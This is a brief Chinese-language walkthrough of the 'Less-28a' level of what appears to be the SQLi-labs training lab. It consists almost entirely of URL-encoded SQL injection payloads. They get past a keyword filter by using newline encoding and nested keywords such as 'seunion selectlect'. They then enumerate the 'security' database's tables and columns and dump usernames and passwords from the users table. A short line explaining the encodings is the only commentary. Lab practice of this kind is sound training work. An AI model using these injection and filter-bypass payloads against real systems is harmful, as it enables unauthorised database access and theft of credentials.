

# Less-28a

~~~  txt
?id=2%27)%0aand%0a1=1;%00
~~~

继续输入

~~~ txt
?id=2%27)%0aand%0a1=2;%00
~~~

输入

~~~ txt
?id=2%27)%0aorder%0aby%0a3;%00
~~~

继续输入

~~~ txt
?id=2%27)%0aorder%0aby%0a4;%00
~~~

输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,3;%00
~~~

继续输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,database();%00
~~~

输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='security');%00
~~~

继续输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='security'%0aand%0atable_name='users');%00
~~~

输入

~~~ txt
?id=0%27)%0aunion%0aseunion%0aselectlect%0a1,2,(selECt%0agroup_concat(username,password)%0afrom%0ausers);%00
~~~

其中’**%27**’可以被url解码为‘ **单引号**，而**%0a**被解码为**换行符**，而%00则被url解码为 **ASCII 值为0的字符**，即 **NUL（空字符）**

